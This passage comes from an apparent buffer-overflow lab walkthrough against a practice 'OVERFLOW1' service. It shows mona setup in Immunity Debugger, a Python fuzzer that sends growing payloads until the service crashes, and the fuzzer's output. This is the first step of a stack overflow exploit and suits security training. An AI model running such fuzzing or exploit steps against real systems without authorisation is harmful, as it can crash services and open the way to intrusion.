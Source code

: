 The state has now changed to running, we can use netcat to verify it is listening:

![](cybersecurity/images/Pasted%2520image%252020250529120948.png)

Everything's right for now, let's proceed, what we need to do now is configure mona, in Immunity’s command bar (bottom), run:

```
!mona config -set workingfolder c:\mona\%p
```

![](cybersecurity/images/Pasted%2520image%252020250529121058.png)

![](cybersecurity/images/Pasted%2520image%252020250529121115.png)

Now, on our linux machine we need to create a file named `fuzzer.py` with this contents:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.199.216"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

Let's run it now:

```
python3 fuzzer.py
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Fuzzing with 800 bytes
Fuzzing with 900 bytes
Fuzzing with 1000 bytes
Fuzzing with 1100 bytes
Fuzzing with 1200 bytes
Fuzzing with 1300 bytes
Fuzzing with 1400 bytes
Fuzzing with 1500 bytes
Fuzzing with 1600 bytes
Fuzzing with 1700 bytes
```